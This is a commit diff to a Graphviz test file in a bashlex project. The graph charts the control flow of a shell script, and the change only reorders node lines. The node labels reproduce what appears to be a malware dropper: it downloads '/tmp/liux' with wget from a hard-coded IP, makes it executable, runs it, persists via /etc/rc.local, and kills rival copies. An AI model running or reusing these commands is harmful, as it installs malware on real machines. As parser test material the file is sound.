

Before and after one commit to hongdal/bashlex: the diagram in module-dev/bashgraph/testcase/2.dot, drawn with Graphviz. The commit also changed other lines of this file and 15 other files, not shown here.

```diff
--- a/module-dev/bashgraph/testcase/2.dot
+++ b/module-dev/bashgraph/testcase/2.dot
@@ -1,136 +1,136 @@
 digraph {
 12 [label=" cat /etc/rc.local"];
+16 [label=" grep /etc/chongfu.sh"];
+20 [label=" grep -v grep"];
+27 [label=" echo "];
+31 [label=" echo sh /etc/chongfu.sh & "];
+41 [label=" \[ 1 \]"];
+52 [label=" ps aux"];
+56 [label=" grep /tmp/liux"];
+60 [label=" grep -v grep"];
+65 [label=" wc -l"];
+73 [label=" \[ $Centos_sshd_killn -eq 0 \]"];
+87 [label=" \[ ! -f /tmp/liux \]"];
+99 [label=" \[ -f /usr/bin/wget \]"];
+107 [label=" cp /usr/bin/wget ."];
+112 [label=" chmod +x wget"];
+117 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
+125 [label=" chmod 755 /tmp/liux"];
+130 [label=" rm wget -rf"];
+136 [label=" echo No wget"];
+142 [label=" /tmp/liux"];
+147 [label=" \[ $Centos_sshd_killn -gt 1 \]"];
+164 [label=" ps aux"];
+168 [label=" grep liux"];
+172 [label=" grep -v grep"];
+177 [label=" awk {print $2}"];
+186 [label=" $Centos_sshd_killn-1"];
+194 [label=" \[ $Centos_sshd_killn -eq 1 \]"];
+203 [label=" continue"];
+206 [label=" kill -9 $killed"];
+215 [label=" echo "];
+224 [label=" ps aux"];
+228 [label=" grep /tmp/liux"];
+232 [label=" grep -v grep"];
+237 [label=" wc -l"];
+245 [label=" \[ $Centos_ssh_killn -eq 0 \]"];
+259 [label=" \[ ! -f /tmp/liux \]"];
+271 [label=" \[ -f /usr/bin/wget \]"];
+279 [label=" cp /usr/bin/wget ."];
+284 [label=" chmod +x wget"];
+289 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
+297 [label=" chmod 755 /tmp/liux"];
+302 [label=" rm wget -rf"];
+308 [label=" echo No wget"];
+314 [label=" /tmp/liux"];
+319 [label=" \[ $Centos_ssh_killn -gt 1 \]"];
+336 [label=" ps aux"];
+340 [label=" grep liux"];
+344 [label=" grep -v grep"];
+349 [label=" awk {print $2}"];
+358 [label=" $Centos_ssh_killn"];
+366 [label=" \[ $Centos_ssh_killn -eq 1 \]"];
+375 [label=" continue"];
+378 [label=" kill -9 $killed"];
+387 [label=" echo "];
+392 [label=" sleep 999"];
 12 -> 16;
-16 [label=" grep /etc/chongfu.sh"];
 16 -> 20;
-20 [label=" grep -v grep"];
 20 -> 27;
 20 -> 31;
 20 -> 41;
-27 [label=" echo "];
 27 -> 41;
-392 [label=" sleep 999"];
 392 -> 41;
-31 [label=" echo sh /etc/chongfu.sh & "];
 31 -> 41;
-41 [label=" \[ 1 \]"];
 41 -> 52;
-52 [label=" ps aux"];
 52 -> 56;
-56 [label=" grep /tmp/liux"];
 56 -> 60;
-60 [label=" grep -v grep"];
 60 -> 65;
-65 [label=" wc -l"];
 65 -> 73;
-73 [label=" \[ $Centos_sshd_killn -eq 0 \]"];
 73 -> 87;
 73 -> 147;
-87 [label=" \[ ! -f /tmp/liux \]"];
 87 -> 99;
 87 -> 142;
-99 [label=" \[ -f /usr/bin/wget \]"];
 99 -> 107;
 99 -> 136;
 99 -> 142;
-107 [label=" cp /usr/bin/wget ."];
 107 -> 112;
-112 [label=" chmod +x wget"];
 112 -> 117;
-117 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
 117 -> 125;
-125 [label=" chmod 755 /tmp/liux"];
 125 -> 130;
-136 [label=" echo No wget"];
 136 -> 142;
-130 [label=" rm wget -rf"];
 130 -> 142;
-147 [label=" \[ $Centos_sshd_killn -gt 1 \]"];
 147 -> 164;
 147 -> 215;
 147 -> 224;
-164 [label=" ps aux"];
 164 -> 168;
-168 [label=" grep liux"];
 168 -> 172;
-172 [label=" grep -v grep"];
 172 -> 177;
-203 [label=" continue"];
-203 -> 186;
-203 -> 224;
-206 [label=" kill -9 $killed"];
-206 -> 186;
-206 -> 224;
-194 [label=" \[ $Centos_sshd_killn -eq 1 \]"];
 194 -> 186;
 194 -> 203;
 194 -> 206;
 194 -> 224;
-177 [label=" awk {print $2}"];
+206 -> 186;
+206 -> 224;
+203 -> 186;
+203 -> 224;
 177 -> 186;
-186 [label=" $Centos_sshd_killn-1"];
 186 -> 194;
-142 [label=" /tmp/liux"];
 142 -> 224;
-215 [label=" echo "];
 215 -> 224;
-224 [label=" ps aux"];
 224 -> 228;
-228 [label=" grep /tmp/liux"];
 228 -> 232;
-232 [label=" grep -v grep"];
 232 -> 237;
-237 [label=" wc -l"];
 237 -> 245;
-245 [label=" \[ $Centos_ssh_killn -eq 0 \]"];
 245 -> 259;
 245 -> 319;
-259 [label=" \[ ! -f /tmp/liux \]"];
 259 -> 271;
 259 -> 314;
-271 [label=" \[ -f /usr/bin/wget \]"];
 271 -> 279;
 271 -> 308;
 271 -> 314;
-279 [label=" cp /usr/bin/wget ."];
 279 -> 284;
-284 [label=" chmod +x wget"];
 284 -> 289;
-289 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
 289 -> 297;
-297 [label=" chmod 755 /tmp/liux"];
 297 -> 302;
-308 [label=" echo No wget"];
 308 -> 314;
-302 [label=" rm wget -rf"];
 302 -> 314;
-319 [label=" \[ $Centos_ssh_killn -gt 1 \]"];
 319 -> 336;
 319 -> 387;
 319 -> 392;
-336 [label=" ps aux"];
 336 -> 340;
-340 [label=" grep liux"];
 340 -> 344;
-344 [label=" grep -v grep"];
 344 -> 349;
-375 [label=" continue"];
+378 -> 358;
+378 -> 392;
 375 -> 358;
 375 -> 392;
-349 [label=" awk {print $2}"];
-349 -> 358;
-366 [label=" \[ $Centos_ssh_killn -eq 1 \]"];
 366 -> 358;
 366 -> 375;
 366 -> 378;
 366 -> 392;
-378 [label=" kill -9 $killed"];
-378 -> 358;
-378 -> 392;
-358 [label=" $Centos_ssh_killn"];
+349 -> 358;
 358 -> 366;
-314 [label=" /tmp/liux"];
 314 -> 392;
-387 [label=" echo "];
 387 -> 392;
 }
```
